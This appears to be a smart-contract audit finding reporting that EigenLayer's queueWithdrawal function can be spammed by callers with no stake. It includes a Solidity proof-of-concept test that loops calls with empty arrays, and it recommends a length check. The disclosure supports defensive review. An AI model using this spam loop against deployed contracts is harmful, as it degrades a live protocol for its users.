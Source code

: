 # queueWithdrawal can be spammed.
https://github.com/code-423n4/2023-04-eigenlayer/blob/main/src/contracts/core/StrategyManager.sol#L329
Avoid spamming on `queueWithdrawal` anyone can call this function without actually staking in Eigenlayer.
```solidity
function test_spamQueueWithdrawal() public {
        address anyone = address(1337);
        //Junk data
        uint[] memory strategyIndexes_ = new uint[](1);
        strategyIndexes_[0] = 1;
        IStrategy[] memory strategyArray = new IStrategy[](0);
        uint[] memory shareAmounts = new uint[](0);
        
        //Anyone does not have any stake on Eigenlayer
        //Anyone tries to spam the system
        cheats.startPrank(anyone);
        for (uint256 i; i < 1e2; ++i) {
            strategyManager.queueWithdrawal(
            strategyIndexes_,
            strategyArray,
            shareAmounts,
            attacker,
            false
        );
        }
        cheats.stopPrank();
    }
```
Note: This wasn't caught by bot.
## Recommendation:
Add `require(strategies.length != 0)` to `queueWithdrawal`